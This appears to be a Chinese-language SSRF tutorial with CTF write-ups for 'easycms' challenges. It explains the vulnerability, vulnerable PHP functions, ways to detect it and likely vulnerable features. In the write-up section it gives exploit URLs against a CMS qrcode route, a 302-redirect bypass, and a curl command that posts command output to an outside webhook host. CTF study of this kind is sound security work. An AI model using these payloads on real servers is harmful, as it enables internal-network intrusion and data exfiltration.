



## SSRF简介

SSRF (Server-Side Request Forgery,服务器端请求伪造)是一种由攻击者构造请求，由服务端发起请求的安全漏洞。一般情况下，SSRF攻击的目标是外网无法访问的内部系统(正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔离的内部系统)。

也就是（如果A是外网主机，B是不能访问外网的主机，C是能够访问A和B的主机------->SSRF也就是A通过C访问B）

## SSRF漏洞原理

SSRF的形成大多是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。例如，黑客操作服务端从指定URL地址获取网页文本内容，加载指定地址的图片等，利用的是服务端的请求伪造。SSRF利用存在缺陷的Web
应用作为代理攻击远程和本地的服务器。

攻击方式：

1. 对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息。

2. 攻击运行在内网或本地的应用程序。

3. 对内网Web应用进行指纹识别，识别企业内部的资产信息。

4. 攻击内外网的Web应用，主要是使用HTTP GET请求就可以实现的攻击(比如struts2、SQli等)。

   利用gopher协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp 等，也可以发送 GET、POST 请求，这可以拓宽 SSRF 的攻击面。

5. 利用file协议读取本地文件等。

## 常用函数

```
file_get_contents()、fsockopen()、curl_exec()、fopen()、readfile()
```

## 漏洞点

### 常见SSRF漏洞验证方式

```
排除法：浏览器f12查看源代码看是否是在本地进行了请求
比如：该资源地址类型为 http://www.xxx.com/a.php?image=URL,URL参数若是其他服务器地址就可能存在SSRF漏洞

dnslog等工具进行测试，看是否被访问(可以在盲打后台，用例中将当前准备请求的url和参数编码成base64，这样盲打后台解码后就知道是哪台机器哪个cgi触发的请求)

抓包分析发送的请求是不是通过服务器发送的，如果不是客户端发出的请求，则有可能是存在漏洞。接着找存在HTTP服务的内网地址

从漏洞平台中的历史漏洞寻找泄漏的存在web应用内网地址
通过二级域名暴力猜解工具模糊猜测内网地址
通过file协议读取内网信息获取相关地址

直接返回的Banner、title、content等信息

留意布尔型SSRF，通过判断两次不同请求结果的差异来判断是否存在SSRF，类似布尔型sql盲注方法。
```

### SSRF漏洞点挖掘

```
1. 社交分享功能：获取超链接的标题等内容进行显示

2. 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

3. 在线翻译：给网址翻译对应网页的内容

4. 图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片

5. 图片/文章收藏功能：主要其会取URL地址中title以及文本的内容作为显示以求一个好的用具体验

6. 云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行ssrf测试

7. 网站采集，网站抓取的地方：一些网站会针对你输入的url进行一些信息采集工作

8. 数据库内置功能：数据库的比如mongodb的copyDatabase函数

9. 邮件系统：比如接收邮件服务器地址

10. 编码处理, 属性信息处理，文件处理：比如ffpmg，ImageMagick，docx，pdf，xml处理器等

11. 未公开的api实现以及其他扩展调用URL的功能：可以利用google 语法加上这些关键字去寻找SSRF漏洞

12.从远程服务器请求资源（upload from url 如discuz！；import & expost rss feed 如web blog；使用了xml引擎对象的地方 如wordpress xmlrpc.php）
```

url关键字

```
Share、wap、url、link、src、source、target、u、3g、display、sourceURL、imageURL、domain
```

[看看这里吧！！！SSRF漏洞](https://www.cnblogs.com/miruier/p/13907150.html)

#### 题目easycms： 

搜索到迅睿cms 曾经存在ssrf，审计代码发现qrcode路由存在ssrf构造如下

```
http://eci-2ze3cmcfbu4h73d67lga.cloudeci1.ichunqiu.com/index.php
?s=api
&c=api
&m=qrcode
&thumb=http://test.ai.darwinchow.com
&text=sfaf
&size=11
&level=1
```

发现存在ssrf,但是直接访问127.0.0.1是被过滤的 尝试302去绕过

302配置如下



cmd处可任意命令执行，执行readflag外带flag /readflag | curl -X POST -d @- https://webhook.site/c8aa80e1-fbab-4051-b280-212f3a50a3e7



### 题目easycms_revenge：

刚才的差不多，好像加了一点waf？

```
http://eci-2zeflmaf18ustq2ioeb5.cloudeci1.ichunqiu.com/index.php
?s=api
&c=api
&m=qrcode
&thumb=http://39.105.130.36/index.php
&text=sfaf
&size=1024
&level=1
```

通过302到本地然后读取文件执行命令



外带flag


